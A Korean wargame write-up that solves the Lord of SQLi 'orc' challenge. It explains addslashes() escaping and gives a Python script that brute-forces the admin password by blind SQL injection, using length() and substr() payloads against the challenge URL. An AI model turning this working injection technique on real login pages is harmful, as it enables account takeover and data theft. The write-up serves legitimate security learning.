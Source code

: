 별다른 필터링은 존재하지 않지만 __addslashes()__ 라는 처음보는 함수가 추가되었다.
![addslashes](/assets/img/post/addslashes.png)<br>
공식 문서에 따르면 **'** , **"** , **\\** , **Null**같은 글자를 이스케이프해서 반환한다고 한다.

**이스케이프(escape):** 특수문자나 제어문자를 일반 문자로써 사용할 수 있게 해준다.<br>
\ + 해당 문자를 해서 사용한ex) \\' , \\"

### exploit
id가 admin으로 고정되어 있admin의 pw만 알아낸다면 문제를 해결할 수 있다.<br>

admin의 pw를 알아내기 위해 **python**을 사용한 **브루트포스**를 이용할 것이다.

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookie = {'PHPSESSID': 'Cookie 값'}

for i in range(20):
  param = {'pw': f"' or length(pw)={i}#"}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'pw': f"' or substr(pw, {str(len)}, 1)='{chr(pw)}'#"}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password)
```
이 코드를 사용하면 pw를 알 수 있하지만 출력값을 그대로 입력하면 문제를 해결할 수 없다.<br>
mysql에서는 대소문자를 구분하지 않아서 소문자로 변환하여 입력해야 문제를 해결할 수 있다.
<br>
<br>
